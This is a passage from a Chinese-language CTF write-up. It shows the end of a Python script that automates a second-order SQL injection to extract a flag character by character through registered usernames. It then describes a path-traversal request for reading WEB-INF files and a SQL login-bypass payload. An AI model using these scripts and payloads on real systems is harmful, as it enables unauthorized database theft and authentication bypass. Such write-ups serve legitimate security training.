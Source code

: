 ```
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    r.encoding = r.apparent_encoding
    print(r.text)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    table_name = table_name + chr(int(asc))
print('table_name:',table_name)
'''
#获取flag
for i in range(1,100):
    register_data = {
        'email':'test@test'+ str(i) + str(i),
        'username':"0'+ascii(substr((select * from flag) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    login_data = {
        'email':'test@test'+ str(i) + str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    flag = flag + chr(int(asc))
print('flag:',flag)
```

## Zhuanxv

1.存在list文件夹，并且存在文件包含，访问/loadimage?fileName=../../WEB-INF/web.xml，下载文件

2.读取../../WEB-INF/classes/applicationContext.xml下的文件，../../WEB-INF/classes/com/cuitctf/service/impl/UserServiceImpl这样下载下来
拖下来所有的源码之后用 jd-gui就可以看源码了，存在注入

![image](http://note.youdao.com/yws/res/1767/FA5D559D5B554A918441F7EB9B2A102E)


payload: user.name=1'or''like''or''like'&user.password=aaaa

相当于 from user where'1'or''like''or''like'' and password='aaa'

基础知识，这里存在这样的逻辑：

select 1=2 or 1=1 or 1=1 and 1=2;

相当于=> select 1=2 or 1=1 or ( 1=1 and 1=2 );
